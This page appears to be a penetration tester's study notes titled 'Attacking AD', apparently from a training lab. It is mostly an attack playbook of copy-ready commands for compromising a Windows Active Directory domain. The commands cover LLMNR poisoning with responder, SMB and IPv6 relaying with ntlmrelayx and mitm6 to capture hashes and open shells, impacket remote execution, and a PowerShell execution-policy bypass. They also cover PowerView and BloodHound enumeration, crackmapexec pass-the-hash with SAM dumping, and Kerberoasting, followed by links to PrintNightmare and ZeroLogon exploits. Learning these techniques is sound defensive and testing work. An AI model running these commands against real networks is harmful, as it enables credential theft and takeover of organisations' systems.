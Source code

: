 Attacking AD
LLMNR NBT-NS
Run responder at the beginning of the day

# responder -I eth1 -dwv 

SMB Relay
Sweep the network in the morning for smb

# nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -v
# nmap --script=smb2-security-mode.nse -p445 10.200.200.0/24 -v

For SMB Relay, look for “Message signing enabled but not required” from nmap scan

Create a targets.txt from the IPs with  “Message signing enabled but not required” 

Run this to get the hashes
# ntlmrelayx.py -tf targets.txt -smb2support

Run this to create a shell
# ntlmrelayx.py -tf targets.txt -smb2support -i

Listen for the shell
# nc 127.0.0.1 <port number>

Alternative to gaining shell
Use metasploit: look for
psexec
psexec_psh 

Or use impacket scripts
smbexec.py
# smbexec.py <domain>/<user>:<password>@<ip>
wmiexec.py
# wmiexec.py <domain>/<user>:<password>@<ip>
psexec.py
# psexec.py <domain>/<user>:<password>@<ip>

IPv6 Attacks
Start mitm6
# mitm6 -d <domain> -i eth1
# ntlmrelayx.py -6 -t ldaps://<server ip> -wh fakewpad.<domain> -l lootme 


Post-Compromise Enumeration
Powerview
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Bypass execution prevention 
> powershell -ep bypass
> . .\PowerView.ps1

Useful Commands
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
> Get-NetDomain
> Get-NetDomainController
> Get-DomainPolicy
> (Get-DomainPolicy)."SystemAccess"
> Get-NetUser | select cn
> Get-NetUser | select samaccountname
> Get-NetUser | select description
> Get-NetComputer
> Invoke-ShareFinder
> Get-NetGPO | select displayname, whenchanged

Bloodhound
# apt install bloodhound
# sudo neo4j console
http://localhost:7474/browser/
neo4j:neo4j
Search for sharphound

> Invoke-BloodHound -CollectionMethod All -Domain Marvel.local -ZipFileName file.zip

Pass the Hash / Pass the Password
need credential first
username and password or
shell on machine
 
Pass the Password / Pass the Hash
crackmapexec smb <ip/CIDR> -u <user> -H <last part of NTLM hash> --local-auth
crackmapexec smb <ip/CIDR> -u  <user> -d <domain> -p <password>
crackmapexec smb <ip/CIDR> -u  <user> -d <domain> -p <password> --sam
psexec.py <user>:@<ip> -hashes <NTLM hash>

Kerberoasting
# GetUserSPNs.py <domain>/<user>:<password> -dc-ip <server ip> -request

GPP Attack
 
Links
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share
https://github.com/cube0x0/CVE-2021-1675

URL File Attacks
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share![image](https://user-images.githubusercontent.com/77715808/202856425-18e76cdd-e59f-41a9-a436-764b6ce0b6e2.png)

PrintNightmare (CVE-2021-1675)
cube0x0 RCE - https://github.com/cube0x0/CVE-2021-1675
calebstewart LPE - https://github.com/calebstewart/CVE-2021-1675

What is ZeroLogon?
dirkjanm CVE-2020-1472 - https://github.com/dirkjanm/CVE-2020-1472
SecuraBV ZeroLogon Checker - https://github.com/SecuraBV/CVE-2020-1472![image](https://user-images.githubusercontent.com/77715808/202856362-66ba1dfb-0eb0-467a-826c-4f6cbdb1317d.png)
